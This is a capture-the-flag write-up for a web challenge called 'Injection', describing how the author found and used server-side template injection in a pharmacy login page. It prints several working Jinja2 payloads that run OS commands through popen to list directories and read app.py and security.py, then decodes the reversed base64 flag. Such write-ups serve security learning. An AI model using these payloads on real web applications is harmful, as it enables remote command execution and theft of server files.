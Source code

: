 # Injection


> Tags: web  
> Points: 200  


## Challenge Description
>Our local pharmacy exposed admin login to the public, can you exploit it? 


## Analysis
So when I opened up the URL I saw a basic login form, I thought we need to use SQL injection to exploit it, I tried a lot of SQL injections but none of them worked, then I thought maybe XSS injections would work so I tried a lot of XSS injections, this all took me around 1.5 hours to two hours and the result was nothing I did not make any progress at all.

So after a few hours of rest and a couple of challenges later I came back to it, because one of my friends gave me a hint that its related to Server Side Template Injection(SSTI), so I quickly watched a few YouTube videos to understand how SSTI works.

After watching the videos I googled ‘SSTI payload cheatsheet’ and found a lot of resources full of SSTI payloads, then I tried all of them in the input field and none of them worked at all, then later on I got to know that I need to add those payloads at the end of the URL and not in the input fields, so I quickly tried a few basic payloads and they seem to be working, so now I just had to find the correct payload.

I found this payload 
```

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

```

What this does is, it imports OS module, and allows us to use OS commands, so when we use ls command we get this 
 
<img src='https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/content.png'>


So no we needed to check all the other folders and the app.py file.
I did check app.py by 
```

{{config.__class__.__init__.__globals__['os'].popen('cat app.py').read()}}

```
But I didn’t get the result that I wanted.

So I tried to list all the items in the lib directory, and this could be done by 
```

{{config.__class__.__init__.__globals__['os'].popen('ls /app/lib').read()}}

```
This directory had a file named as security.py

![post_request](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/request.png)

So now I had to check what was inside security.py
```
{{config.__class__.__init__.__globals__['os'].popen('cat /app/lib/security.py').read()}}
```
I found something really helpful.

![result](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/request.png)

This is the flag, but its encrypted, so now I just had to decrypt it.

I couldn’t decrypt it due to my bad cryptography skills, so my teammate did it.
To decrypt it you just had to flip the string backwords and then decrypt it using base64.
This is the reversed string

![decrypted_result](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/decrypted%20result.png)

The flag: dctf{4ll_us3r_1nput_1s_3v1l}

The tool that I used in this challenge is Postman(https://www.postman.com/)
